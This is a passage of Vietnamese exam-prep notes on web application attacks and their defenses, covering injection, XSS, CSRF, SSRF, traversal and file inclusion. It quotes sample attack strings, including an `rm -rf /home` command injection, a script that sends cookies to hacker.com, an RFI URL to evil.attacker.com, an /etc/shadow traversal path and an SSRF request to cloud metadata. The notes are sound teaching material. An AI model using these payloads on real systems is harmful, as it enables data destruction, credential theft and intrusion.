	- Dấu `&` (Ampersand) trong dòng lệnh Linux/Windows có nghĩa là "Chạy lệnh đằng trước xong, chạy tiếp lệnh đằng sau".
	- `mkdir ...`: Tạo thư mục (Hợp lệ).
	- `rm -rf /home`: Lệnh xóa vĩnh viễn toàn bộ thư mục `/home` (Độc hại).
	- Hậu quả: Hacker có thể xóa file, tạo user mới, hoặc chiếm quyền điều khiển server.

---


**Tóm tắt nhanh cho kỳ thi:**

1. Thấy **`' OR 1=1`** hoặc **`SELECT`** -&gt; **SQL Injection (Content-based)**.
2. Thấy **`WAITFOR DELAY`** hoặc **`BENCHMARK()`** -&gt; **SQL Injection (Timing-based)**.
3. Thấy các dấu hiệu như **`&`**, **`|`**, **`;`** kết hợp với lệnh hệ thống như **`rm`**, **`cat`**, **`ping`**, **`mkdir`** -&gt; **Command Injection**.
4. Cách phòng chống chung tốt nhất: **Input Validation** (Lọc đầu vào) và sử dụng các hàm an toàn (như Prepared Statements cho SQL).

## Exploiting Authentication Vulnerabilities {#2bb7b0eb61a4807385ddd6cd6411e042}


### Password authentication {#2bb7b0eb61a4805da25efc68ad6c3ef3}


Mật khẩu là phương pháp phổ biến nhất nhưng cũng dễ bị đánh bại nhất. Các phương pháp

- Social engineering: lừa người dùng tự khai mật khẩu
- Eavesdropping: nghe lén trên đường truyền không mã hóa
- Compromised database: lấy được danh sách mật khẩu từ các vụ lộ lọt dữ liệu khác và thử lại (credentials stuffing)
- Brute-force

### Default password {#2bb7b0eb61a4807cb2d1e958e8145b7b}

- Vấn đề: nhiều thiết bị như router, camera được xuất xưởng với tài khoản mặc định, người dùng không đổi → hacker biết và truy cập

### Session attacks {#2bb7b0eb61a4803390e0ddda2c972337}


Sau khi đăng nhập thành công, server sẽ cung cấp cho người dùng một session để không phải đăng nhập lại liên tục


### Session hijacking {#2bb7b0eb61a4805fa992c95a577c8821}

- Cơ chế: kẻ tấn công đánh cắp session ID (thường lưu trong cookie) của người dùng đăng nhập
- Hậu quả: đăng nhập được vào tài khoản mà không cần mật khẩu
- Cách thực hiện:
	- Nghe lén (sniffing) trên mạng wifi không an toàn
	- XSS để lấy cookie

### Session replay {#2bb7b0eb61a480c9aa59fc4d01680249}




- Cơ chế:
	- Eavesdropping đường truyền và thu cookie hoặc token người dùng gửi tới server
	- phát lại gói tin lên server
	- Server cho phép truy cập
- Phòng chống:
	- Dùng HTTPS
	- Đánh dấu cookie là secure (chỉ truyền qua HTTPS)
	- Sử dụng time-stamps hoặc nonce

:::tip

- **Cookie:** Là một file nhỏ lưu trên trình duyệt, chứa thông tin phiên làm việc (_authentication string_). Nó giống như một tấm thẻ ra vào (_badge_) mà bạn đeo sau khi qua cổng an ninh.

- **Rủi ro:** Bất cứ ai có được "tấm thẻ" này (Cookie) đều có thể vào nhà (tài khoản) của bạn.

- **Figure 6.8 & 6.9:** Minh họa quy trình xác thực bằng Cookie và hình ảnh thực tế của Cookie trên trình duyệt Chrome (F12 -> Application -> Cookies).

:::





### Unvalidated redirects {#2bb7b0eb61a48087aca2c49751d31f5f}


Đây là một lỗ hổng trong ứng dụng web liên quan đến việc chuyển hướng người dùng.

- **Cơ chế:**
	- Một trang web có chức năng chuyển hướng, ví dụ: `www.mycompany.com/ordering.php?redirect=http://www.mycompany.com/thankyou.htm`.
	- Hacker thay đổi tham số `redirect` thành trang web độc hại của hắn: `...redirect=http://www.evilhacker.com/passwordstealer.htm`.
- **Kịch bản tấn công:**
	- Hacker gửi link đã sửa đổi cho nạn nhân.
	- Nạn nhân thấy tên miền đầu là `mycompany.com` (uy tín) nên click vào.
	- Sau khi xử lý xong, web tự động chuyển nạn nhân sang trang web độc của hacker.
- **Hậu quả:** Lừa đảo (Phishing), cài malware.
- **Phòng chống:** Sử dụng **Validated Redirects** (Chỉ cho phép chuyển hướng đến các URL nằm trong danh sách trắng - Whitelist).

## Exploiting authorization vulnerability {#2bb7b0eb61a480a194dbf2669505a830}


### Insecure Direct Object References - IDOR (Tham chiếu đối tượng trực tiếp không an toàn) {#2bb7b0eb61a480d4a707ed406659d118}

- **Bản chất:** Lỗi này xảy ra khi ứng dụng web cho phép người dùng truy cập trực tiếp vào các đối tượng (như file, database record) thông qua một tham số đầu vào (_input argument_) mà **quên kiểm tra quyền sở hữu**.
- **Ví dụ (Figure 6.11):**
	- URL bình thường để xem tài liệu của bạn: `www.mycompany.com/getDocument.php?documentID=1842`.
	- Số `1842` là ID tài liệu của bạn.
- **Tấn công:**
	- Hacker (đã đăng nhập hợp lệ vào tài khoản của hắn) thử đổi số ID trên URL thành `1841`, `1843`, `1844`.
	- Nếu ứng dụng trả về tài liệu của người khác -> **Lỗ hổng IDOR**.
- **Nguyên nhân:** Lập trình viên chỉ kiểm tra "User đã đăng nhập chưa?" mà quên kiểm tra "User này có quyền xem tài liệu số 1843 không?".

> Exam Note: Câu chuyện về thiếu niên người Canada bị bắt (Sidebar) là ví dụ điển hình về IDOR. Cậu ta chỉ đơn giản là thay đổi số ID trên URL để tải về hàng loạt tài liệu mật. 





### Directory traversal {#2bb7b0eb61a4807e9df3fdde490130fd}

- Tên gọi khác: Path traversal hoặc dot-dot-slash (../)
- Thoát khỏi thư mục web để truy cập các file hệ thống nhạy cảm của máy chủ
- Cơ chế:
	- Web server chỉ cho phép truy cập /var/www/html
	- Hacker nhập URL: `www.mycompany.com/../../../etc/shadow`
	- Nếu Server không lọc ký tự `..`, nó sẽ lùi dần ra khỏi thư mục web và đi vào thư mục `/etc` để đọc file `shadow` (chứa hash mật khẩu Linux).

## File inclusion {#2bb7b0eb61a480fb9ecfe7dbd8f2d81b}


Là phiên bản nâng cấp của directory traversal


### Local file inclusion (LFI) {#2bb7b0eb61a48079bf8fd27d0aca6624}

- Cơ chế: kẻ tấn công ép ứng dụng chạy một file đang nằm sẵn trên máy chủ đó (local server)
- Ví dụ: hacker upload một ảnh đại diện (avatar.jpeg) nhưng bên trong file có chứa mã độc PHP. Sau đó hắn dùng lỗi LFI để ép server chạy file ảnh đó như một file code

### Remote file inclusion (RFI) {#2bb7b0eb61a48028a3eac7b94d3338d6}

- Cơ chế: kẻ tấn công ép server chạy một code từ remote server
- **Ví dụ:**`www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe`
- **Hậu quả:** Hacker có thể cài đặt **Web Shell** (giao diện dòng lệnh trên web) để toàn quyền điều khiển server.

## Privilege escalation {#2bb7b0eb61a48045b1d3e25cb974eb17}


Sau khi xâm nhập được vào hệ thống (thường với quyền user thấp), mục tiêu tiếp theo là **Leo thang đặc quyền**.

- **Định nghĩa:** Khai thác lỗ hổng để chuyển từ tài khoản thường (_normal user_) sang tài khoản có quyền cao hơn (_privileged account/root/admin_).
- **Ví dụ:** Lỗ hổng **Dirty COW** trên Linux cho phép một user bình thường ghi đè lên file hệ thống và chiếm quyền root.
- Cách phòng chống:
	- Patch, update anti-virus
	- Data Execution prevention: ngăn mã độc chạy trong bộ nhớ chỉ dành cho dữ liệu
		- Khi hacker tìm thấy một buffer overflow flaw ở vùng stack hoặc heap, nó sẽ lừa CPU nhảy vào vùng nhớ để thực hiện lệnh cấp quyền admin
		- DEP ngăn chặn bằng cách: chia bộ nhớ máy tính thành 2 loại:
			1. **Vùng để Chạy lệnh (Executable):** Chỉ chứa mã chương trình sạch.
			2. **Vùng để Chứa dữ liệu (Non-Executable):** Chỉ chứa văn bản, số liệu, hình ảnh... (Data only in executable areas can run).
			- **Tác dụng:** DEP bật một cái lẫy (NX bit) trên vùng chứa dữ liệu. Nếu hacker chèn mã độc vào vùng dữ liệu và lừa CPU chạy nó, CPU sẽ thấy cái lẫy này và nói: _"Khoan đã! Đây là vùng chứa dữ liệu, không được phép chạy lệnh ở đây!"_.
			- **Kết quả:** Chương trình sẽ bị tắt ngay lập tức (Crash) thay vì chạy mã độc của hacker. Hacker không thể chạy lệnh leo thang quyền hạn được.
	- Address space layout randomization (ASLR): sắp xếp lộn xộn vị trí các dữ liệu trong bộ nhớ RAM mỗi khi khởi động ứng dụng. Hacker không biết cách tấn công
		- Để tấn công thành công, hacker cần biết chính xác "nhà" của các hàm hệ thống quan trọng nằm ở địa chỉ nào trong bộ nhớ (ví dụ: hàm `system()` nằm ở địa chỉ `0x77c29f20`). Hacker sẽ viết mã: _"Hãy nhảy đến địa chỉ_ _`0x77c29f20`_ _để chạy lệnh Admin"_.
		- **Tác dụng:**
			- Hôm nay hàm `system()` nằm ở `0x1000`.
			- Ngày mai khởi động lại, nó nhảy sang `0x5000`.
			- Ngày kia nó lại ở `0x9000`.
		- Hacker chịu chết

:::tip

Tại sao buffer Overflow lại cho phép chạy code
- RAM được chia thành nhiều stack gồm buffer (chứa dữ liệu) và return address (sau khi xử lý xong thì quay lại đây để chạy lệnh tiếp theo)

- Nếu không có input validation thì hacker nhập 100 ký tự (thay vì 8 ký tự chẳng hạn) thì tràn sang phần return address này. Hacker thay địa chỉ này bằng Y (nơi chứa malicious code) mà y đã chèn vào trong chuỗi ký tự nhập lúc này

- CPU trỏ về Y và chạy code

- Nhưng sao lại chạy được quyền admin, hacker cần tìm ứng dụng lỗi có quyền admin là được, nó sẽ tiếp tục chạy code ở Y với quyền admin

→ privilege escalation

:::


## Exploiting Web Application Vulnerabilities {#2bb7b0eb61a480c7ac52fc87e0bcc960}


### XSS (cross site scripting) {#2bb7b0eb61a480e9a168c9592ac25349}


XSS là lỗ hổng mà ứng dụng web cho phép kẻ tấn công inject mã HTML hoặc JS độc hại và trang web mà người dùng khác xem


2 dạng chính


### Reflected XSS  {#2bb7b0eb61a480248835ea6c5f0b50d7}

- Cơ chế:
	- Kẻ tấn công tạo một đường link chứa mã độc trong tham số URL (ví dụ:

	```powershell
	website.com/search?q=<script>alert('Hello')</script>
	```

	- Hacker gửi link này cho nạn nhân qua email/chat (Lừa đảo).
	- Khi nạn nhân click vào link, ứng dụng web "phản xạ" (_reflects_) lại đoạn mã đó lên màn hình trình duyệt của nạn nhân. Mã độc này có thể yêu cầu mật khẩu, thông tin quan trọng của người dùng
	- Đặc biệt là nó gắn trên trang web thật (nên người dùng không nghi ngờ)
	- Mã độc được thực thi ngay lập tức.
	- **Đặc điểm:** Mã độc không được lưu trong cơ sở dữ liệu của web, nó chỉ tồn tại trong đường link.

[https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)


### Stored/Persistent XSS {#2bb7b0eb61a4800b8c3ee8b131a96101}

- Cơ chế:
	- Kẻ tấn công nhập mã độc vào nơi web lưu lại (vd: bình luận trên diễn đàn)
	- Lưu vĩnh viễn trong CSDL
	- bất cứ ai truy cập vào trang đó để xem bình luận đều sẽ dính mã
	- Nguy hiểm hơn reflected: không cần người dùng nhấn vào link, chỉ cần ghé thăm trang web là dính
- Reflected XSS thì phải bấm vào link giả mạo mới lừa
- Persistent XSS chỉ cần load web là bị rồi (bởi vì script độc được lưu trên web, khi load web load luôn script độc hại này)
- VD: **Hacker** vào bình luận, nhưng thay vì viết chữ, hắn viết đoạn mã:

```powershell
<script>document.location='http://hacker.com?cookie='+document.cookie</script>
```

- Web lưu cái này vào data base
- Người dùng vào đọc báo thì bị trộm mất cookie
- Hacker dùng cookie chiếm quyền
- Cách phòng chống:
	- mã hóa đầu ra

		```powershell
		Ví dụ: Biến dấu < thành &lt;, dấu > thành &gt;. Khi đó, trình duyệt sẽ hiểu <script> chỉ là đoạn văn bản bình thường, không phải là lệnh để chạy.
		```

	- Input validation: không cho nhập `<script>`
	- CSP (content security policy): chỉ cho phép Js chạy từ tên miền của bạn, inline script trong HTML thì bị chặn

:::tip

Lịch sử XSS
- **Site A (Của Hacker):** Hacker tạo một trang web chứa mã độc.

- **Site B (Của Ngân hàng):** Nạn nhân đang đăng nhập.

- **Hành động "Cross":** Hacker lừa nạn nhân click vào một link. Link này tải một đoạn Script từ **Site A** nhưng lại bắt nó chạy trên nền của **Site B**.

→ Đoạn Script đã **"Băng qua" (Cross)** ranh giới an toàn từ Site A sang Site B để ăn trộm dữ liệu. Vì script chạy trên Site B, nó nhìn thấy cookies và dữ liệu của Site B.
Hiện đại:

- _Ví dụ:_ Hacker comment một đoạn code trực tiếp lên Facebook. Đoạn code đó nằm ngay trên server Facebook (cùng site). Khi bạn đọc comment, code chạy.

- Tuy nhiên, bản chất vấn đề vẫn là: **Một đoạn mã KHÔNG thuộc về đội ngũ lập trình viên của trang web (Alien script) đã được thực thi như thể nó là người nhà.**

:::


## Request forgery (giả mạo yêu cầu) {#2bb7b0eb61a48090831fc624c8c6028b}


### Cross-site request forgery (CSRF/XSRF) tên khác là session riding {#2bb7b0eb61a48056863dcdd322178419}

- Bản chất: nó không ăn cắp mật khẩu hay cookie. Mà dựa vào việc web đã authenticate bạn (có một cookie trong trình duyệt).
	- Từ đó thay đổi mật khẩu, chuyển tiền, đăng bài viết dưới tên bạn.
- Kịch bản:
	- Bạn đăng nhập vào trang web bank
	- Hacker lừa bạn click vào một link, ảnh trên trang web khác nhờ phishing chẳng hạn
	- Link đó chứa lệnh chuyển tiền
	- Vì bạn đang đăng nhập ngân hàng, trình duyệt tự động gửi kèm cookie của bạn
	- Ngân hàng thấy hợp lệ và chuyển tiền
- **Mấu chốt:** Người dùng bị ép thực hiện hành động mà họ không hề hay biết (_unwittingly execute commands_).
- **Phòng chống:**
	- Sử dụng **Anti-CSRF Tokens** (Token chống giả mạo) - một chuỗi ngẫu nhiên duy nhất cho mỗi form để đảm bảo yêu cầu thực sự đến từ người dùng.
		- Thêm một token khi tải form (vd form chuyển tiền), giấu trong form đó
		- Khi người dùng bấm gửi thì token này gửi kèm, serer sẽ kiểm tra token này có khớp với cái mình vừa cấp không
		- Hacker không làm gì được vì mỗi lần gửi form là một cái khác nhau.
	- **SameSite Cookie Attribute:** Cấu hình Cookie với thuộc tính `SameSite=Strict` hoặc `SameSite=Lax`. Điều này ra lệnh cho trình duyệt: _"Không được gửi Cookie này nếu request đến từ một trang web khác (cross-site)"_.

### **Server-Side Request Forgery (SSRF)** {#2bb7b0eb61a480769183c2d9844512dc}

- **Bản chất:** Tấn công vào **Máy chủ (Server)**.
- **Cơ chế:**
	- Hacker lừa máy chủ web gửi yêu cầu HTTP đến một hệ thống khác mà bình thường hacker không thể truy cập được (ví dụ: máy chủ nội bộ, API metadata của Cloud).
	- _Ví dụ:_  Ví dụ trang web cung cấp chức năng tìm kiếm ảnh, thay vì nhập tên ảnh vào thì:
		- **Hacker:** Nhập vào ô tải ảnh: `http://localhost/admin/db_config`.
		- **Web Server:** Nhận lệnh "Hãy tải dữ liệu từ `localhost/admin/db_config`".
		- **Web Server (thực hiện lệnh):** Tự gửi một request HTTP đến cổng quản trị của chính nó.
		- **Hệ thống quản trị:** Kiểm tra nguồn truy cập. Nó thấy request đến từ `127.0.0.1` (chính là Web Server). Nó nghĩ: _"À, đây là 'người nhà', không phải người ngoài. Cho qua!"_.
		- **Kết quả:** Hệ thống quản trị trả về file cấu hình chứa mật khẩu database. Web Server nhận được file này (nghĩ là dữ liệu ảnh) và hiển thị nó lên màn hình cho Hacker xem.
	- Một ví dụ kinh điển: Trên máy chủ cloud AWS có một IP đặc biệt là: `http://169.254.169.254`.
		- IP này chỉ truy cập được từ bên trong server và chứa metadata của server, gồm cả Temporary security credentials
		- Nếu hacker nhập URL này vào ô “tải ảnh”, web server AWS sẽ tự kết nối đến dịch vụ metadata, hacker lấy được TSC và chiếm quyền điều khiển toàn bộ server.
- **Hậu quả:** Lộ thông tin nội bộ, quét mạng nội bộ từ bên trong.
- Phòng chống:
	- chỉ cho phép người dùng nhập url thuộc danh sách tin cậy
	- Chặn dải IP nội bộ: cấu hình firewall để chặn không được kết nối tới địa chỉ IP private`127.0.0.1`, `localhost`, `192.168.x.x`, `10.x.x.x`. chỉ cho phép truy cập Database cần thiết
	- Vô hiệu hóa giao thức lạ: Chỉ cho phép giao thức `http://` và `https://`. Cấm tiệt các giao thức như `file://` (đọc file trên server), `ftp://`, `gopher://`.
	- Bảo vệ cloud metadata:  Nếu dùng Cloud (AWS, Google Cloud), hãy cấu hình firewall hoặc dùng IMDSv2 (phiên bản bảo mật cần token xác thực) để ngăn chặn truy cập vào địa chỉ metadata nhạy cảm `169.254.169.254`.

### Click hijacking {#2bb7b0eb61a4807f98f2f4f1997f0cb6}


Là kĩ thuật nhắm vào giao diện người dùng UI

- Cơ chế: sử dụng các lớp trong suốt, hoặc khung hình để đánh lừa người dùng nhấp vào một nút bấm hoặc liên kết trên một trang web khác
- Tên gọi khác: UI Redressing. Cách hoạt động:
	1. **Lớp dưới cùng (Bottom Layer - Load trong iframe trong suốt):** Là trang web thật, ví dụ: trang "Chuyển tiền" của ngân hàng, hoặc trang "Like" Facebook. Nút "Chuyển tiền" hoặc "Like" được căn chỉnh nằm chính giữa màn hình.
	2. **Lớp trên cùng (Top Layer - Cái người dùng nhìn thấy):** Là một trang web dụ dỗ, ví dụ: "Bấm vào đây để nhận thưởng iPhone 15". Nút "Nhận thưởng" được đặt đè lên đúng vị trí của nút "Chuyển tiền" ở lớp dưới.
	- **Hành động:** Người dùng nhìn thấy nút "Nhận thưởng" và bấm vào.
	- **Thực tế:** Vì lớp trên chỉ là ảo ảnh/hình vẽ, cú click chuột thực chất đã bấm xuyên qua và trúng vào nút "Chuyển tiền" (hoặc nút Like) ở trang web thật bên dưới.
- Cách chống:

	Server cần gửi một HTTP Header đặc biệt để cấm các trang web khác nhúng mình vào iframe:

	- **X-Frame-Options: DENY** (Cấm tuyệt đối). nếu hacker nhúng web bạn vào trang của hắn thì hiện trang trống
	- **X-Frame-Options: SAMEORIGIN** (Chỉ cho phép chính mình nhúng mình).
	- **Content Security Policy (CSP):** `frame-ancestors 'none'`. hiện đại hơn, không cho phép ai nhúng hết

:::tip

- XSS: bản chất là tiêm mã độc thường

- CSRF: dùng phishing, hoặc các biện pháp khác để lấy session token khi bạn đang đăng nhập vào tài khoản quan trọng (ngân hàng, ví điện tử,…)

- SSRF: dùng kĩ thuật input để truy cập dữ liệu trái phép trên server

- Click hijacking: dùng lớp trong suốt hoặc khung hình để đánh lừa người dùng click vào một liên kết khác

:::


## Application Security Controls {#2bb7b0eb61a480bda005ca0c60d8ad43}


Các biện pháp quan trọng để phòng thủ - hệ thống phòng thủ defense-in-depth


### Input validation {#2bb7b0eb61a480bab602c398b15627a7}


Đây là biện pháp quan trọng nhất

- Nguyên tắc: coi mọi dữ liệu người dùng nhập vào là không tin cậy
- Allow listing (whitelist): cách hiệu quả nhất. Chỉ cho phép những ký tự/định dạng đã được định nghĩa trước đó (ví dụ: tuổi chỉ là số nguyên từ 0-125)
- Server-side vs Client-side validation:
	- _Client-side (trên trình duyệt):_ Chỉ để thuận tiện cho người dùng (báo lỗi nhanh). Hacker có thể tắt JavaScript để vượt qua nó dễ dàng.
		- Never trust the client: không dùng input validation trên client
	- _Server-side (trên máy chủ):_ **Bắt buộc phải có**. Đây mới là chốt chặn bảo mật thực sự.

### **Parameter Pollution** {#2bb7b0eb61a4805a844dfefc7b4516a2}

- **Vấn đề:** Hacker cố tình gửi nhiều giá trị cho cùng một tham số để đánh lừa bộ lọc Input Validation.
	- Ví dụ: `...account=12345&account=12345' OR 1=1;--`
	- Bộ lọc có thể chỉ kiểm tra cái đầu tiên (hợp lệ), nhưng ứng dụng lại xử lý cái thứ hai (độc hại).
- **Giải pháp:** Cấu hình Web Server để xử lý chặt chẽ các tham số trùng lặp.

## Application Firewalls - WAF (Tường lửa ứng dụng web) {#2bb7b0eb61a480ae8facd2a111e52a63}


Là cách để xử lý những trường hợp input validation trên ở phía server

- **Vị trí:** Nằm ở phía trước Web Server (Xem **Figure 6.14**).
- **Chức năng:** Nó chặn các cuộc tấn công web phổ biến (như SQL Injection, XSS) trước khi chúng chạm tới ứng dụng.
- **Vai trò:** Là lớp phòng thủ bổ sung (_layered defense_), giúp bảo vệ ứng dụng khi code chưa kịp vá lỗi.



- Sreened subnet chính là DMZ (vùng sảnh, tiếp tân)
	- Chứa web server, email server
- Internal network: mạng nội bộ, không được truy cập
- Internet: cái chợ bên ngoài
- Network firewall:
	- Cấm:
		- Internet vào Internal network (khách không cần vào internal làm gì)
		- Screened subnet → internal network (hacker không theo vào mạng nội bộ
	- Cho phép:
		- Internet → screened subnet (khách hàng truy cập dữ liệu)
		- Internal → secreened subnet (để sửa web server)
- Screened Subnet (Khu vực cô lập)
	1. **Web Application Firewall (WAF):** chắn trước Web Server để kiểm tra nội dung gói tin (như chúng ta đã bàn ở câu trước: chặn SQLi, XSS).
	2. **Web Server:**
		- Đây là máy chủ chứa trang web. Nó là mục tiêu dễ bị tấn công nhất nên phải đặt ở đây.
		- Nhờ nằm trong Screened Subnet, nếu Web Server này bị Hacker chiếm quyền điều khiển, Hacker cũng chỉ loanh quanh ở khu vực này, bị chặn bởi Network Firewall phía trên, không thể xâm nhập vào **Internal Network** bên tay phải.

## Database security {#2bb7b0eb61a4804797cdd4b2e8150a70}


### Parameterized queries {#2bb7b0eb61a48029a07cdf8df0ec37a9}


Đây là liều thuốc đặc trị cho **SQL Injection**.

- **Cơ chế:** Thay vì ghép chuỗi SQL (`SELECT ... WHERE id =`  + input), lập trình viên sử dụng các khuôn mẫu (_templates_) có sẵn.
- **Hiệu quả:** Database sẽ hiểu rằng input của người dùng chỉ là **Dữ liệu (Data)** chứ không phải là **Mã lệnh (Code)**, nên dù hacker nhập `' OR 1=1`, nó cũng chỉ được coi là một chuỗi văn bản vô hại.
- **Stored Procedures:** Là một dạng thực thi của Parameterized Queries được lưu sẵn trên Database.

## Code security {#2bb7b0eb61a480d497d9e17f89473f30}


### Code signing {#2bb7b0eb61a4806388b8f83114606552}

- Mục đích: đảm bảo integrity và authenticity của phần mềm
- Cơ chế: dev dùng khóa bí mật để ký số vào file cài đặt. Hệ điều hành của người dùng sử dụng khóa công khai để kiểm tra
- Lợi ích: ngăn chặn hacker sửa đổi file cài đặt để chèn malware

### **Code Reuse & Third-party Libraries (Tái sử dụng mã & Thư viện bên thứ 3)** {#2bb7b0eb61a4804a8706fd7e98465d31}

- **Lợi ích:** Tiết kiệm thời gian, không phải "phát minh lại cái bánh xe". Sử dụng các thư viện (Libraries) và bộ công cụ (SDKs).
- **Rủi ro:** Nếu thư viện bên thứ 3 có lỗ hổng (ví dụ: Log4j), toàn bộ ứng dụng của bạn cũng bị dính lỗ hổng. Cần phải theo dõi và cập nhật thường xuyên.

### **Code Repositories (Kho lưu trữ mã nguồn)** {#2bb7b0eb61a48075b51be0062b992588}

- **Ví dụ:** GitHub, GitLab, Bitbucket.
- **Chức năng:**
	- Lưu trữ tập trung (_Centralized storage_).
	- Quản lý phiên bản (**Version control**): Cho phép theo dõi ai sửa gì, và quay lui (_rollback_) khi cần.
	- Tránh vấn đề **Dead code** (Mã chết - mã không dùng nữa nhưng vẫn nằm trong hệ thống gây rủi ro).

## Integrity Measurement & Application Resilience (Đo lường toàn vẹn & Khả năng phục hồi) {#2bb7b0eb61a48064aaa4d2aa8ae2d37c}

- **Integrity Measurement:** Sử dụng mã băm (Hash) để kiểm tra xem code đang chạy trên Production có đúng là code đã được phê duyệt không (tránh việc hacker âm thầm sửa file trên server).
- **Application Resilience:**
	- **Scalability (Khả năng mở rộng):** Khả năng thêm tài nguyên để đáp ứng nhu cầu tăng lên (ví dụ: thêm RAM, thêm Server).
	- **Elasticity (Tính đàn hồi):** Khả năng **tự động** tăng giảm tài nguyên theo nhu cầu thực tế (ví dụ: Cloud tự động bật thêm server khi đông khách, và tắt bớt khi vắng khách để tiết kiệm tiền).

## Sandboxing (Hộp cát) {#2bb7b0eb61a480388c3bfe7c67d18d73}

- **Định nghĩa:** Chạy ứng dụng trong một môi trường bị cô lập (_isolated environment_).
- **Mục đích:**
	- Ngăn ứng dụng độc hại (hoặc lỗi) làm hỏng hệ điều hành chính.
	- Dùng để phân tích Malware hoặc test code mới.
- **Exam Note:** Sandbox là công cụ cô lập để chứa kẻ tấn công hoặc mã độc trong môi trường giả lập, khiến chúng tưởng đang tấn công thật nhưng thực ra vô hại.

# Secure coding practices {#2bc7b0eb61a48031b49ce4328a65f5c6}


## Secure code comments {#2bc7b0eb61a480b9970ce5af089e158f}

- Vai trò: giúp dev hiểu code hoạt động như thế nào
- Rủi ro: nếu comment chứa thông tin nhạy cảm (mật khẩu, logic quan trọng, tên biến quan trọng) và bị lộ → nguy hiểm
- Lưu ý:
	- Với C++, Java compiler thường xóa comment
	- Với mã thông dịch HTML, JS, PHP, comment nằm nguyên trong files
- Giải pháp: xóa cmt trước khi đưa lên production

## Error handling {#2bc7b0eb61a4804181cac87e62437608}


Kẻ tấn công rất thích làm ứng dụng bị lỗi xem nó phản ứng như thế nào

- Improper error handling: nếu không catch error → sập, hoạt động sai
- Overly verbose error message:
	- Lỗi hiển thị ra màn hình quá nhiều thông tin kĩ thuật
	- Hacker dùng thông tin này để hiểu cấu trúc bên trong
- Giải pháp: dùng thông báo lỗi chung chung (”Đã có lỗi xảy ra”) cho người dùng cuối và ghi log chi tiết vào file nội bộ

## Hard-coded credentials {#2bc7b0eb61a480779c29c4741931a382}

- Định nghĩa: dev viết thẳng username/password hoặc API key vào trong mã nguồn
- Rủi ro:
	- Nếu mã nguồn bị lộ (upload lên github), hacker có ngay chìa khóa vào hệ thống
	- Đây là một dạng backdoor nguy hiểm
- Giải pháp: không bao giờ hard code. Lưu credentials trong biến môi trường hoặc để hệ thống quản lý bí mật (secret management systems) và mã hóa chúng

## Package monitoring {#2bc7b0eb61a480439665ee1c524dcb6d}

- Package monitoring là việc theo dõi những thư viện hoặc package của biên thứ ba được sử dụng trong quá trình build
- Thường xuyên update dependencies bằng automated tools
- Nên dùng library có danh tiếng
- Thường dùng cho kiểm tra app open source

## Memory management {#2bc7b0eb61a480b0b92ad5d1e0a10a8f}

- Memory leaks:
	- Ứng dụng xin cấp phát bộ nhớ nhưng quên trả lại cho hệ điều hành sau khi dùng xong
	- Theo thời gian, bộ nhớ bị đầy → hệ thống chậm hoặc sập (Resource exhaustion/DoS)
- Pointer Dereferencing
	- Pointer là biến chứa địa chỉ bộ nhớ
	- Null pointer exception: nếu chương trình cố gắng đọc dữ liệu từ một con trỏ rỗng (null), ứng dụng sẽ bị crash. Hacker có thể lợi dụng điều này để tấn công DoS hoặc bypass bảo mật
- Memory injection: phần mềm diệt virus chỉ diệt trên ổ cứng, hacker không chạy file .exe mà tiêm thẳng mã độc vào RAM của một phần mềm sạch đang chạy như notepad, chrome hay calculator
	- Kỹ thuật DLL injection:
		- DLL (dynamic link library): là thư viện chứa code hỗ trợ cho phần mềm windows
		- Hacker lừa phần mềm ép phần mềm hợp pháp tải một file vào bộ nhớ của chính nó
		- Mã độc chạy dưới danh nghĩa phần mềm sạch
- Buffer Overflows
	- Định nghĩa: kẻ tấn công nhồi nhét dữ liệu vào một vùng buffer, nhiều hơn khả năng chứa của nó
	- Hậu quả: dữ liệu thừa tràn sang vùng nhớ bên cạnh
	- Mục đích hacker chèn mã độc vào bộ nhớ (memory injection) và ép CPU thực thi mã đó để chiếm quyền điều khiển
	- Integer overflow: một biến thể của buffer overflow, xảy ra khi kết quả phép tính quá lớn với biến số nguyên

## Race conditions {#2bc7b0eb61a48019b75cc0f11404d498}

- TOC/TOU (time-of-check-to-time-of-use)
	- TOC: hệ thống kiểm tra quyền truy cập (kiểm tra xem A có quyền truy cập X không)
	- Time-of-Use: hệ thống thực hiện hành động (cho phép user A sửa file X)
	- Tấn công: hacker chèn vào giữa khoảng thời gian giữa TOC và TOU để thay đổi đối tượng
	- _Ví dụ:_ Hacker yêu cầu sửa file X (hợp lệ). Ngay sau khi hệ thống check xong (TOC), hacker nhanh tay tráo file X bằng file Password (TOU). Hệ thống cứ thế ghi đè lên file Password vì tưởng đó là file X.
	- **Ví dụ kinh điển (Rút tiền ngân hàng):**
	Giả sử bạn có **$100** trong tài khoản. Bạn và vợ bạn cầm 2 thẻ ATM, cùng bấm nút rút **$50** tại đúng một thời điểm (cùng một mili-giây).
		1. Máy ATM 1 kiểm tra số dư: Thấy có $100 (Đủ tiền) -> Cho rút.
		2. Máy ATM 2 kiểm tra số dư (cùng lúc đó): Vẫn thấy có $100 (Đủ tiền) -> Cho rút.
		3. **Kết quả:** Cả 2 đều rút được tiền ($50 + $50 = $100). Nhưng do lỗi xử lý cập nhật số dư chậm, hệ thống có thể chỉ trừ tiền 1 lần. Ngân hàng bị lỗ.
	- **Ví dụ thực tế (Mars Rover "Spirit" - 2004):** Chiếc xe tự hành thám hiểm sao Hỏa "Spirit" từng bị treo và khởi động lại liên tục vì gặp lỗi Race Condition trong hệ thống quản lý file của nó, khiến các kỹ sư NASA phải vất vả sửa lỗi từ xa.

## Unprotected API {#2bc7b0eb61a480a8b4e6c9a0cdd6cdc1}


Các tổ chức muốn dev xây dựng dựa trên platform mà họ đã tạo. Ví dụ như Facebook, X muốn dev tạo ra app để 

- API bí mật không được lộ công khai
- Cẩn thận với eavesdropping, hoặc lộ do post công khai (github)

**Giải pháp phòng thủ (Mitigation):**

1. **Authentication Mechanism (Cơ chế xác thực):**
	- Các API không dành cho công chúng (_not intended for public use_) bắt buộc phải được bảo vệ.
	- Sử dụng **API Key**: Đây là một chuỗi ký tự bí mật (giống như mật khẩu) mà ứng dụng phải gửi kèm mỗi khi gọi API để chứng minh danh tính.
2. **Encrypted Channels (Kênh mã hóa):**
	- Phải truy cập qua giao thức mã hóa (HTTPS) để bảo vệ các thông tin xác thực (như API Key).
	- Nếu không mã hóa, API Key sẽ bị lộ bởi các cuộc tấn công nghe lén (**Eavesdropping attacks**).

## Automations and orchestration {#2bc7b0eb61a480028faae2bf6e2c2e3a}
